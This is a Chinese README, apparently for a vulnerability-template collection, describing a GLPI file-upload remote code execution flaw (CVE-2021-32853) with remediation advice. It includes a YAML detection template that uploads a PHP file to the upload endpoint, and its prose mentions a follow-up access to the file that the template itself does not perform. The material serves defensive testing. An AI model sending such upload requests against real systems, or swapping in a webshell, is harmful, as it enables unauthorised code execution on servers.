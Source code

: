 # 开源软件安全模板分类说明

本目录聚焦于各类主流开源软件的安全风险，涵盖远程代码执行、未授权访问、信息泄露等典型漏洞，帮助安全测试人员快速定位和验证相关风险。

---

## 典型漏洞模板举例

### GLPI 任意文件上传导致远程代码执行漏洞（CVE-2021-32853）

**模板文件**：`CVE-2021-32853.yaml`

#### 漏洞简介

GLPI 是一款流行的开源 IT 资产管理和服务台系统。其部分版本存在任意文件上传漏洞，攻击者可上传恶意脚本文件（如 webshell），进而远程执行任意代码，危害极大。

#### 漏洞原理

该漏洞源于 GLPI 文件上传功能对文件类型、后缀及内容校验不严，未对上传用户进行严格权限验证。攻击者可构造特殊请求上传 `.php` 等可执行脚本文件，随后直接访问该文件实现远程命令执行。

#### 检测逻辑（YAML内容解析）

```yaml
id: CVE-2021-32853

http:
  - method: POST
    path:
      - "/front/document.send.php"
    headers:
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
    body: |
      ------WebKitFormBoundary
      Content-Disposition: form-data; name="upload"; filename="test.php"
      Content-Type: application/x-php

      <?php echo "glpi_upload_test"; ?>
      ------WebKitFormBoundary--
    matchers:
      - type: word
        part: body
        words:
          - "glpi_upload_test"
```

- 发送包含恶意 PHP 文件的 POST 请求到上传接口。
- 上传后访问该文件，若响应体中出现特定字符串，则判定存在任意文件上传漏洞。

#### 防护建议

- 升级 GLPI 至官方修复版本。
- 对上传接口进行严格的文件类型、后缀和内容校验，禁止上传可执行脚本文件。
- 增加权限校验，限制未授权用户访问上传接口。

---